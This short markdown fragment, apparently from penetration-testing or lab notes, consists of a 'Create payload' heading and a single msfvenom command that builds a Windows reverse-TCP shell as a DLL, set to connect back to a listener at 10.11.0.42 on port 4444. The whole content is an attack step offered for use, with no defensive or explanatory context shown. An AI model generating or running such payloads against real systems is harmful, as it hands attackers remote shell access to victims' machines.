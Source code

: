 
## Create payload
```
msfvenom -p windows/shell/reverse_tcp -f dll -a x86 LHOST=10.11.0.42 LPORT=4444 -o reverse-shell.dll --platform windows
```
